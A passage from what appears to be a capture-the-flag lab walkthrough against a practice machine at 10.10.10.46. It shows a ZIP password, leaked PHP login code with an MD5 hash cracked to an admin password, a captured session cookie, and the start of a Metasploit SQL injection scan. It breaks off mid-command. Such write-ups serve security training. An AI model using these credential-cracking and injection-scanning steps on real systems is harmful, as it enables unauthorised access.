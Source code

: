 		**ZIP Password:** `741852963`
	* Extracting it's contents using the password reveals a PHP file and a CSS file.
		`index.php` contains:
		```
		<?php
		session_start();
		  if(isset($_POST['username']) && isset($_POST['password'])) {
		    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
		      $_SESSION['login'] = "true";
		      header("Location: dashboard.php");
		    }
		  }
		?>
		```
		Result: The input password is hashed and compared to the MD5 hash: `2cb42f8734ea607eefed3b70af13bbd3`. 
	* This hash can be easily cracked using an online rainbow table such as [crackstation](https://crackstation.net/).
		Result: password is `qwerty789`
5. Foothold
	* Browsing to port 80, we can see a login page for MegaCorp. The credentials `admin:qwerty789` can be used to login.
		![Screenshot-20200504141424-1486x658.png](./resources/d63ff367aaaa434ba634cb5b45943662.png)
	* Search parameter in URL: `http://10.10.10.46/dashboard.php?search=a`
	* Get PHP Session ID: `PHPSESSID:"lkktfc22hu9uer2mlo36ngk6db"`
		![Screenshot-20200504142202-1850x419.png](./resources/2f51b07834234d5ba833ad185aa68a6d.png)
	* Scan for SQL injection with metasploit
		```
		sudo msfconsole
		use auxiliary/scanner/http/blind_sql_query
		set rhosts 10.10.10.46
		set cookie PHPSESSID=lkktfc22hu9uer2mlo36ngk6db
		set path dashboard.php